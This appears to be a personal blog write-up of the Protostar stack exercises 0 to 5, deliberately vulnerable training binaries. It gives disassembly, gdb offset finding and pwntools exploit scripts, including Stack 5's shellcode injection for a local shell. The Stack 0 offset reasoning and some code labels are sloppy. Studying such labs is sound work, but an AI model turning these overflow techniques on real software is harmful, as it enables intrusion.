 ```yaml
---
layout: post
title: Protostar Stack Writeups
description:
date: 2025-04-23
categories:
  - pwn 
  - writeup
tags:
  - stack
---
```

# Protostar Stack Writeups

## Stack 0

**GOAL** : Modify a variable

```sh
0x08048405 <+17>:	lea    eax,[esp+0x1c]
0x08048409 <+21>:	mov    DWORD PTR [esp],eax
0x0804840c <+24>:	call   0x804830c <gets@plt>

```

This takes user input and stores it at [esp+0x1c]

```sh
   0x080483fd <+9>:	    mov    DWORD PTR [esp+0x5c],0x0
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret

```

Stores 0 into a variable, then compares the variable to 0;
IF true it prints "Try Again"
If false it prints "You have changed the 'modified variable"

**Ghidra Decompiled code**
```c

void main(void)

{
  char buffer [64];
  int please_change_me;
  
  please_change_me = 0;
  gets(buffer);
  if (please_change_me == 0) {
    puts("Try again?");
  }
  else {
    puts("you have changed the \'modified\' variable");
  }
  return;
}

```


---
## Developing Exploit

1. Find the  Offset (Using gdb)
	- set breakpoints at main function and `ret` instruction 
	- run the program in gdb 
	- Create pattern to fill in buffer 
```sh
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[+] Saved as '$_gef1'
```

- Continue and fill in the program 
- check if the is a buffer overflow

```sh
gef➤  x/wx $ebp
0x61616174:	Cannot access memory at address 0x61616174

```
- Get the buffer size
```sh
gef➤  pattern search 0x61616174
[+] Searching for '74616161'/'61616174' with period=4
[+] Found at offset 76 (little-endian search) likely

```

Buffer size = 76
Offset = 80 | because we need to override the ebp which takes up 4 bytes


**Exploit**
```python
#!/usr/bin/python3

from pwn import *

binary = "./stack0"
elf = ELF(binary)
p = process(binary)
#goal is to modify varaible
buf_size = 76
offset = 80

payload = b"A"*offset
payload += p32(0x2) # change the varible to 2

p.sendline(payload)
p.interactive()
```

## Stack 1

**Goal** : Modify the variable to be 

```
./stack1 $(python3 -c 'print("A"*64 + "\x64\x63\x62\x61")')
```

## Stack 2

Code

```c
void main(void)
{
  char buffer [64];
  int change_me;
  char *env;

  env = getenv("GREENIE");
  if (env == (char *)0x0) {
    errx(1,"please set the GREENIE environment variable\n");
  }
  change_me = 0;
  strcpy(buffer,env);
  if (change_me == 0xd0a0d0a) {
    puts("you have correctly modified the variable");
  }
  else {
    printf("Try again, you got 0x%08x\n",change_me);
  }
  return;
}
```

we need to put our exploit in the environment variable `GREENIE`

To modify the `change_me` variable we just need to fill in the buffer then put what we want to put in the `change_me` variable which is `\x0a\x0d\x0a\x0d` in this case (little endian)



```sh
export GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")')
```

```sh
/stack2 
you have correctly modified the variable
```

## Stack 3

Source 

```c
void main(void)
{
  char buffer [64];
  code *func_ptr;
  
  func_ptr = (code *)0x0;
  gets(buffer);
  if (func_ptr != (code *)0x0) {
    printf("calling function pointer, jumping to 0x%08x\n",func_ptr);
    (*func_ptr)();
  }
  return;
}

void win(void)
{
  puts("code flow successfully changed");
  return;
}
```

Our exploit needs to fill up the buffer and call the address (pointer ) of the `win` function

**Exploit**

```python 
#!/usr/bin/python3

from pwn import *

binary = "./stack3"
elf = ELF(binary)
p = process(binary)

buffer_size = 64

addr = p32(elf.sym["win"]) # address of the win function 

payload = b"A"*buffer_size
payload += addr

p.sendline(payload)
p.interactive()
```

## Stack 4

```python
#!/usr/bin/python3

from pwn import *

binary = "./stack4"
elf = ELF(binary)
p = process(binary)

win_func = p32(elf.sym['win'])
buf_size = 76

payload = b"A"*buf_size
payload += win_func

p.sendline(payload)
p.interactive()
```

## Stack 5

```c
#!/usr/bin/python

from pwn import *

binary = "./stack5"
elf = ELF(binary)
p = process(binary)

buf_size = 76
shellcode = asm(shellcraft.sh())
ret_addr = p32(0xffffcdd0) # buffer address

payload = b"\x90"*(buf_size - len(shellcode))
payload += shellcode
payload += ret_addr

log.info(f"Buffer size: {buf_size}")
log.info(f"Shellcode size: {len(shellcode)}")
log.info(f"NOP sled size: {buf_size - len(shellcode)}")
log.info(f"Return address: {hex(u32(ret_addr))}")
log.info(f"Payload: {payload}")

p.sendline(payload)
p.interactive()
```